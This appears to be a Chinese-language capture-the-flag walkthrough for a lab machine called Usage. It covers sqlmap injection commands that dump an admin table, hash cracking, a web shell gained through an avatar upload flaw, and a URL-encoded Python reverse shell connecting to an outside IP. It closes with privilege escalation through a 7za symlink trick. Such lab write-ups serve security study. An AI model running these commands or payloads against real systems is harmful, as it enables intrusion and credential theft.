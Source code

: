 # namp

![image-20250409111435689](Usage/image-20250409111435689.png)

# 80端口

## 子域名-admin

admin.usage.htb下是个登录页面，应该是管理员后台登录页面，需要账号密码

![image-20250409113711037](Usage/image-20250409113711037.png)

## forget-password

测试sql注入时，单引号闭合时返回的是500服务器错误，双引号闭合时返回正常，sqlmap进行注入

![image-20250409162631767](Usage/image-20250409162631767.png)

```shell
sqlmap -r sql --batch --dbs --level 3
```

![image-20250409162659121](Usage/image-20250409162659121.png)

```shell
sqlmap -r sql -D usage_blog --tables -batch -p email --level 3
```

![image-20250409171003617](Usage/image-20250409171003617.png)

```shell
sqlmap -r sql -D usage_blog -T admin_users -C "name,password,username" --dump  -batch -p email --level 3 
```

![image-20250409180633659](Usage/image-20250409180633659.png)

使用john破解

![image-20250409181926372](Usage/image-20250409181926372.png)

## RCE-GetShell

![image-20250409151742647](Usage/image-20250409151742647.png)

更换头像时存在文件上传漏洞，可以参考这篇文章

[CVE-2023-24249 漏洞 |飞 D --- CVE-2023-24249 | flyD](https://flyd.uk/post/cve-2023-24249/)

![image-20250409154328932](Usage/image-20250409154328932.png)

![image-20250409154454536](Usage/image-20250409154454536.png)

可以成功命令执行，反弹shell

![image-20250409161257502](Usage/image-20250409161257502.png)

```
http://admin.usage.htb/uploads/images/php.jpg.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.16.22%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

![image-20250409154800161](Usage/image-20250409154800161.png)

## 提权

dash目录下有monit的配置文件，经查询monit是个监控软件，查看查看进程，后台也有monit在运行

![image-20250409162808109](Usage/image-20250409162808109.png)

![image-20250409162928930](Usage/image-20250409162928930.png)

依次读取各个文件在`.monitrc`中找到了管理员密码，`home`目录下还有另一个用户，使用该密码可以成功切换到另一个用户`xander`

![image-20250409163017016](Usage/image-20250409163017016.png)

该用户有`usage_management`的sudo权限![image-20250409172311939](Usage/image-20250409172311939.png)

该程序的功能是备份源码，将该程序放在本地逆向看看，调用7za进行压缩

> -tzip:指定目标存档的文件类型，即 ZIP
>
> -a代表追加模式，并将文件添加到指定的存档 （ /var/backups/project.zip ）
>
> -snl:将符号链接存储为链接（而不是它们指向的文件）
>
> -mnt:启用多线程以实现更快的压缩
>
> -- *:包括当前目录中的所有文件和目录

`-snl`的作用时将符号链接压缩之后保存为链接，而不是该链接指向的文件，例如创建的链接为`a->b`，压缩之后还是保持该链接，解压之后不会有两个b，应该还是`a->b`的关系

![image-20250409164717457](Usage/image-20250409164717457.png)

需要先创建一个`@id_rsa`,将id_rsa定义为目录文件，7z解压时就会报错，就能显示其链接的文件内容

![image-20250409173006287](Usage/image-20250409173006287.png)

![image-20250409173314333](Usage/image-20250409173314333.png)

![image-20250409170801369](Usage/image-20250409170801369.png)